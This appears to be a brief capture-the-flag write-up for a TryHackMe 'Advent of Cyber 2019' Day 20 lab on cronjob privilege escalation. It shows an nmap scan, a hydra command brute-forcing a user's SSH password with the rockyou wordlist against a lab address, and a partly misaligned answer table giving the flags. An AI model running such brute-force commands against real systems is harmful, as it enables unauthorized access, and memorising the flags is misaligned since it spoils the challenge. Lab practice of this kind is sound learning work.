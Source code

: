 # Advent of Cyber 01 - 2019
# Day 20
# Cronjob Privilege Escalation

> Machine IP : `10.10.13.251`
> nmap scanning : 
```
nmap  10.10.13.251 -oN nmap.txt
```

> Bruteforcing sam's SSH Password using hydra :
```
hydra -l sam -P /usr/share/wordlists/rockyou.txt ssh://10.10.13.251:4567 -t 4

```


| Que$t1on$ | An$wer$ |
|-----------|---------|
| What port is SSH running on? | 4567 |
| Crack sam's password and read flag1.txt |
| Excalate your privleges by taking advantage of a cronjob running every minute. What is flag2.txt | THM{dec4389bc09669650f3479334532aeab} | THM{b27d33705f97ba2e1f444ec2da5f5f61} |
